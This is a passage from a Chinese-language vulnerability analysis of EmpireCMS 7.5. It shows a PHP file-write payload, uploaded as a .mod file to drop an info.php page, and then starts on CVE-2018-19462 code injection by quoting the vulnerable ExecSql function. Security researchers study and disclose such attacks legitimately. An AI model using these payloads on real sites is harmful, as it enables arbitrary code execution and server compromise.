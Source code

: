![](https://i.loli.net/2021/02/14/Igh9rTBwJ16nzDu.png)

![上传页面](https://i.loli.net/2021/02/14/SI7Vw1JAtyqQhKu.png)

构造一个内容为

`<?php fputs(fopen('info.php','w'),'<?php phpinfo(); ?>');?>`

或`<?php file_put_contents(“info.php”,”<?php phpinfo(); ?>”); ?>`

的.mod后缀的文件

![创建文件~](https://i.loli.net/2021/02/14/x17kit5zP9vr8sJ.png)

![导入~](https://i.loli.net/2021/02/14/bSVqfcGsriWaKpD.png)

可以看到文件成功写入了
![成功写入](https://i.loli.net/2021/02/14/bWnH2d4LjRxMgaw.png)

访问即可
![](https://i.loli.net/2021/02/14/o7HhIAsL9CYd6rZ.png)





#### 7.5 代码注入(CVE-2018-19462)

> 影响版本：帝国CMS(EmpireCMS) <= 7.5
>
> 描述：EmpireCMS7.5及之前版本中的admindbDoSql.php文件存在代码注入漏洞。该漏洞源于外部输入数据构造代码段的过程中,网路系统或产品未正确过滤其中的特殊元素。攻击者可利用该漏洞生成非法的代码段,修改网络系统或组件的预期的执行控制流。

漏洞出现页面：

这里其实是使用了文件引用，引用了文件upload/e/admin/db/DoSql.php

![](https://i.loli.net/2021/02/14/DEnAXeTWalSvZR3.png)

查看DoSql.php：

```php
function ExecSql($id,$userid,$username){
	global $empire,$dbtbpre;
	$id=(int)$id;
	if(empty($id))
	{
		printerror('EmptyExecSqlid','');
	}
	$r=$empire->fetch1("select sqltext from {$dbtbpre}enewssql where id='$id'");
	if(!$r['sqltext'])
	{
		printerror('EmptyExecSqlid','');
    }
	$query=RepSqlTbpre($r['sqltext']);#sqltext是上图表格上传的内容，经RepSqlTbpre处理
	DoRunQuery($query);#对$query处理
	//操作日志
	insert_dolog("query=".$query);
	printerror("DoExecSqlSuccess","ListSql.php".hReturnEcmsHashStrHref2(1));
}
```
